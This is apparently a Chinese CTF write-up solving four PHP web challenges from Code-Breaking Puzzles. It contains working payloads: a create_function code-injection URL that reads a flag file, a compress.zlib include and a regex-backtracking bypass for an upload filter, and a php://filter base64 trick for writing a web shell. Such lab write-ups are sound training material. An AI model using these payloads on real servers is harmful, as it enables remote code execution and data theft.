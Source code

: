 ```yaml
---
layout: post
title: Code-Breaking Puzzles 部分 web wireup
category: writeup
tags: ctf
description:
---
```


代码审计知识星球二周年 && PWNHUB && Code-Breaking Puzzles



0x00 easy - function
----
环境php7.2.12 apache 2.4.25
```php
<?php
$action = $_GET['action'] ?? '';
$arg = $_GET['arg'] ?? '';

if(preg_match('/^[a-z0-9_]*$/isD', $action)) {
    show_source(__FILE__);
} else {
    $action('', $arg);
}

```
这里可以使用create_function函数，但是在php7.2中以及被废除，本地测试后发现还能使用，于是fuzz出在函数前`\`可以绕过正则。

`
http://51.158.75.42:8087/?action=%5ccreate_function&arg=2;}var_dump(file_get_contents(%22/var/www/flag_h0w2execute_arb1trary_c0de%22));/*
`



0x01 easy - pcrewaf
----
```

所有代码都在URL里。

URL： http://51.158.75.42:8088/

```
这题最开始的代码
```php
<?php
function is_php($data){
    return preg_match('/<\?.*[\(\`].*/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}

$user_dir = 'data/' . md5($_SERVER['REMOTE_ADDR']);
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
    echo "bad request";
} else {
    @mkdir($user_dir, 0755);
    $path = $user_dir . '/' . random_int(0, 10) . '.php';
    move_uploaded_file($_FILES['file']['tmp_name'], $path);

    header("Location: $path", true, 303);
} 
```
正则部分```
'/<\?.*[\(\`].*/is'
```后面改成了```'/<\?.*[(`;?>].*/is'``` 
未修改正则之前的非预期.
未改前可以使用包含和一些协议流如```zip:\\```、```compress.zlib://```来读取压缩过后去除<?后带有`和(字符达到拿到flag的目的.

![Screen Shot 2018-11-24 at 6.49.59 PM.png][1]

直接上传得到php然后在上传一个include包含就可以了.
```<?php include 'compress.zlib://./4.php';?>```

![Screen Shot 2018-11-24 at 6.52.51 PM.png][2]

然后正确的解法是bypass正则23333
经过一系列的尝试发现'a'*100**2*100+<?php phpinfo();?>+'a'*100**2*100就可以bypass 正则100w+的字符串就可以逃逸匹配.

![Screen Shot 2018-11-24 at 7.06.32 PM.png][3]

然后在上一级目录拿到flag.



0x02 easy - phpmagic
-----

```
<?php
if(isset($_GET['read-source'])) {
    exit(show_source(__FILE__));
}

define('DATA_DIR', dirname(__FILE__) . '/data/' . md5($_SERVER['REMOTE_ADDR']));

if(!is_dir(DATA_DIR)) {
    mkdir(DATA_DIR, 0755, true);
}
chdir(DATA_DIR);

$domain = isset($_POST['domain']) ? $_POST['domain'] : '';
$log_name = isset($_POST['log']) ? $_POST['log'] : date('-Y-m-d');
?>
    <div class="row">
        <div class="col">
            <pre class="mt-3"><?php if(!empty($_POST) && $domain):
                $command = sprintf("dig -t A -q %s", escapeshellarg($domain));
                $output = shell_exec($command);

                $output = htmlspecialchars($output, ENT_HTML401 | ENT_QUOTES);

                $log_name = $_SERVER['SERVER_NAME'] . $log_name;
                if(!in_array(pathinfo($log_name, PATHINFO_EXTENSION), ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'], true)) {
                    file_put_contents($log_name, $output);
                }

                echo $output;
            endif; ?>

```
这里就是p师傅很久之前说过的一个绕exit的技巧，```file_put_contents```文件名是可以使用php伪协议对文件内容进行base64解码然后写入文件，这里文件上传时还用到了[php & apache2的黑魔法](http://wonderkun.cc/index.html/?p=626)

然后post提交
`
domain=xxx&log=://filter/convert.base64-decode/resource=/var/www/html/data/md5/aaad.php/.
`
然后在把需要写入的数据base64编码后放在cname里面。

0x03 easy - phplimit
------
这个题在RCTF中出现过,但是这里使用的nginx`getallheaders函数`是`apache_request_headers函数`的别名所以我们需要另外寻找一个可控又不经过`$_GET`处理的函数来实现递归getshell.查阅文档发现了`get_defined_vars`
http://php.net/manual/zh/function.get-defined-vars.php

![Screen Shot 2018-11-24 at 7.17.47 PM.png][4]

然后用将数组的值转化为字符串就行了.
由于open_basedir的原因我们直接列目录读就行.

![Screen Shot 2018-11-24 at 7.20.42 PM.png][5]

![Screen Shot 2018-11-24 at 7.21.30 PM.png][6]

然后在上一级目录拿到flag.

  [1]: https://img.scanfsec.com/img/201811161090521.png
  [2]: https://img.scanfsec.com/img/2018111307899993.png
  [3]: https://img.scanfsec.com/img/201811133673465.png
  [4]: https://img.scanfsec.com/img/2018111499561809.png
  [5]: https://img.scanfsec.com/img/201811267943338.png
  [6]: https://img.scanfsec.com/img/201811568130586.png
